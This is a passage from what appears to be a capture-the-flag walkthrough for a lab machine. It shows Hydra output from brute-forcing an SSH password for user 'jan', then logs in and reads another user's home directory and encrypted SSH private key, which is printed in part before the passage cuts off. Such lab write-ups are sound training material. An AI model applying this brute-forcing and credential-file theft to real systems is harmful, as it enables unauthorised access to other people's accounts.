_[22][ssh] host: 10.10.126.228   login: jan   password: armando_

_1 of 1 target successfully completed, 1 valid password found_
_[WARNING] Writing restore file because 7 final worker threads did not complete until end._
_[ERROR] 7 targets did not resolve or could not be connected_
_[ERROR] 0 target did not complete_
_Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-08-29 15:41:43_
```

We got a hit! Jan’s password is armando. We can now ssh into Jan’s account.

#### Command:
>_ssh jan@[target]_

### Lateral Movement {#lateral-movement}
Looking around, we see that we can access Kay’s home directory, and access her SSH private key.

```
jan@basic2:~$ cd ..
jan@basic2:/home$ ls
jan  kay

jan@basic2:/home$ cd kay
jan@basic2:/home/kay$ ls -la

total 48
drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 .
drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
-rw------- 1 kay  kay   756 Apr 23  2018 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
-rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
drwx------ 2 kay  kay  4096 Apr 17  2018 .cache
-rw------- 1 root kay   119 Apr 23  2018 .lesshst
drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 .nano
-rw------- 1 kay  kay	57 Apr 23  2018 pass.bak
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
-rw-r--r-- 1 kay  kay 	0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo
jan@basic2:/home/kay$ cd .ssh
jan@basic2:/home/kay/.ssh$ cat id_rsa

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6ABA7DE35CDB65070B92C1F760E2FE75
IoNb/J0q2Pd56EZ23oAaJxLvhuSZ1crRr4ONGUAnKcRxg3+9vn6xcujpzUDuUtlZ
o9dyIEJB4wUZTueBPsmb487RdFVkTOVQrVHty1K2aLy2Lka2Cnfjz8Llv+FMadsN
XRvjw/HRiGcXPY8B7nsA1eiPYrPZHIH3QOFIYlSPMYv79RC65i6frkDSvxXzbdfX
AkAN+3T5FU49AEVKBJtZnLTEBw31mxjv0lLXAqIaX5QfeXMacIQOUWCHATlpVXmN
lG4BaG7cVXs1AmPieflx7uN4RuB9NZS4Zp0lplbCb4UEawX0Tt+VKd6kzh+Bk0aU
hWQJCdnb/U+dRasu3oxqyklKU2dPseU7rlvPAqa6y+ogK/woTbnTrkRngKqLQxMl
lIWZye4yrLETfc275hzVVYh6FkLgtOfaly0bMqGIrM+eWVoXOrZPBlv8iyNTDdDE
3jRjqbOGlPs01hAWKIRxUPaEr18lcZ+OlY00Vw2oNL2xKUgtQpV2jwH04yGdXbfJ
LYWlXxnJJpVMhKC6a75pe4ZVxfmMt0QcK4oKO1aRGMqLFNwaPxJYV6HauUoVExN7
bUpo+eLYVs5mo5tbpWDhi0NRfnGP1t6bn7Tvb77ACayGzHdLpIAqZmv/0hwRTnrb
RVhY1CUf7xGNmbmzYHzNEwMppE2i8mFSaVFCJEC3cDgn5TvQUXfh6CJJRVrhdxVy
VqVjsot+CzF7mbWm5nFsTPPlOnndC6JmrUEUjeIbLzBcW6bX5s+b95eFeceWMmVe
B0WhqnPtDtVtg3sFdjxp0hgGXqK4bAMBnM4chFcK7RpvCRjsKyWYVEDJMYvc87Z0
ysvOpVn9WnFOUdON+U4pYP6PmNU4Zd2QekNIWYEXZIZMyypuGCFdA0SARf6/kKwG
oHOACCK3ihAQKKbO+SflgXBaHXb6k0ocMQAWIOxYJunPKN8bzzlQLJs1JrZXibhl
VaPeV7X25NaUyu5u4bgtFhb/f8aBKbel4XlWR+4HxbotpJx6RVByEPZ/kViOq3S1
GpwHSRZon320xA4hOPkcG66JDyHlS6B328uViI6Da6frYiOnA4TEjJTPO5RpcSEK
QKIg65gICbpcWj1U4I9mEHZeHc0r2lyufZbnfYUr0qCVo8+mS8X75seeoNz8auQL
4DI4IXITq5saCHP4y/ntmz1A3Q0FNjZXAqdFK/hTAdhMQ5diGXnNw3tbmD8wGveG
VfNSaExXeZA39jOgm3VboN6cAXpz124Kj0bEwzxCBzWKi0CPHFLYuMoDeLqP/NIk
oSXloJc8aZemIl5RAH5gDCLT4k67wei9j/JQ6zLUT0vSmLono1IiFdsMO4nUnyJ3